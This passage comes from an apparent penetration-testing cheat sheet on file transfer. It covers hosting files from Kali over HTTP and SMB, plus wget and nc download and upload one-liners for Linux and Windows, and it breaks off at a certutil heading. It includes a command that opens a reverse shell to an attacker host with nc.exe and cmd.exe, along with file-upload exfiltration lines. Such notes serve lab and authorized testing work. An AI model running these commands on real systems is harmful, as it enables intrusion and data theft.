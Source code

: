 ### Hosting files on Kali

- HTTP  

```
python -m SimpleHTTPServer 80
```
Files in current directory available at `http://$HOST/$FILE`  

- SMB  

This one is life-saviour, I use it on almost every Windows box
```
# no authentication will be required
impacket-smbserver share .

# authentication will be required
impacket-smbserver share . -user $USER -password $PASSWORD

# smb2 support
-smb2support
```
Files in current directory available at `\\$HOST\share\$FILE`  

For example if you have basic command execution on server but no reverse shell yet, you can start smbserver with nc.exe in current directory, and execute the following command to get a reverse shell :  
`\\10.10.10.10\share\nc.exe 10.10.10.10 1337 -e cmd.exe`  
(Of course you need to setup a listener beforehand with `nc -nvlp 1337`)  
Also check [here](#reverse-shells-from-code-execution-on-windows)  

### Downloading & Uploading files on Linux

- wget  

```
# download
wget http://$HOST/$FILE

# upload
wget --post-file=$FILE $HOST
```

- nc  

```
# download
nc -nvlp 1337 > $FILE

# upload
nc $HOST 1337 < $FILE
```

### Downloading & Uploading files on Windows

- cmd (certutil)  
